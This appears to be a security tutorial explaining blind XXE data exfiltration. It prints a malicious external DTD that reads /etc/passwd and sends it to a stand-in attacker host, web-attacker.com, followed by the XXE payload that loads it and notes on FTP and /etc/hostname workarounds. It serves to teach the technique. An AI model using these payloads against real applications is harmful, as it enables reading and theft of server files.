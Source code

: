 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
This DTD carries out the following step:
- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>299</productId></stockCheck>
```
## Note
This technique might not work with some file contents, including the newline characters. This is because some XML parsers fetch the URL defined in the external entity using an API that validates the whitelisted characters against the URL string. In this situation, it might possible to use the FTP protocol instead. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.